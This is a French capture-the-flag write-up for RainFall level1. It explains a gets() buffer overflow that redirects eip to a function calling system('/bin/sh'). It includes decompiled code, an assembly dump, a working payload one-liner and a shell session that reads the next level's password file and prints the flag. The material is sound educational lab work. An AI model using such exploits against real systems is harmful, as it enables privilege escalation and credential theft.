


# **Level 1**

Pour le `level1` nous avons un executable qui fais juste appelle a gets et il y a aussi une fonction pas appeler qui lance un `system("/bin/sh")`

```
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}


void main(void)

{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

> Avec scp et un decompiler on recupere le code decompiler de l'executable
 
Le but ici va etre de faire un buffer overflow grace a gets pour modifier le register `eip`, celui qui designe la ou est situee la prochaine instruction

Pour ce faire la theorie n'est pas tres complique, voici un magnifique schema explicatif



En temps normal tu descend ton pointeur `esp` suffisament pour que tout tes caracteres rentre dans la stack, sauf que gets ne verifie pas si tu ecris plus que prevu, donc tu peux continuer a ecrire



De cette facon en continuant a ecrire tu peux remonter jusqu'au contenue de `eip`, la prochaine instruction pour la remplacer.

Maintenant revenons sur le header qui se lance a chaque connexion, car tout ca est rendu simple par le fais que des protections sont desactiver, tout d'abord


Ce fichier permet de controller l'activation et la desactivation de l'ASLR, un outils permettant de randomizer les addresses memoire pour rendre plus difficiles la comprehension du code et ainsi plus difficilemet savoir a quoi set `eip` mais qui est ici desactiver


RELRO (Relocation Read-Only): est une protection de la relocation table aui permet de securiser les liaisons dynamiques, ici desactivee

STACK CANARY: est une protection permettant de detecter les buffer overflow en mettant une valeur dans la stack qui sera modifier en cas de BO, ici desactiver

NX : permet de dire si la stack est executable ou pas, ici cela est desactiver donc on ne peux pas utiliser la stack pour executer du code

PIE (Position Independent Executable) : Cela indique si l'exécutable est compilé en tant qu'exécutable indépendant de la position, ce qui rend plus difficile l'exploitation des vulnérabilités via des attaques de réadressage, ici desactiver

Maintenant que tout ca est dit, voila comment exploiter cette faille, tout d'abord on cherche a savoir ou on voudra aller apres notre buffer overflow donc on affiche l'assembleur de la fonction run

```
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```

Et on en deduis au'il faut faire pointer `eip` sur le debuts de la fonction `0x008048444`
Encuite on construit notre `payload` a envoyer:

```
python -c "print('a'*76+'\x44\x84\x04\x08')" > /var/crash/lvl1
```

> On peux verifier la taille du payload en testant et regardant quand `eip est overwrite`, ici a partir du `77eme` caractere

> On ecrit la destination a l'envers parce que les adrresses sont en little endian

On execute en passant dans stdin notre fichier 

> On utilise cat - pour envoyer notre payload sans EOF a la fin ce qui fermerait immediatement le shell ouvert avec system

```
level1@RainFall:~$ cat /var/crash/lvl1 - | ./level1  
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

> ### NEXT : [Level 2](/level2/resources/README.md)
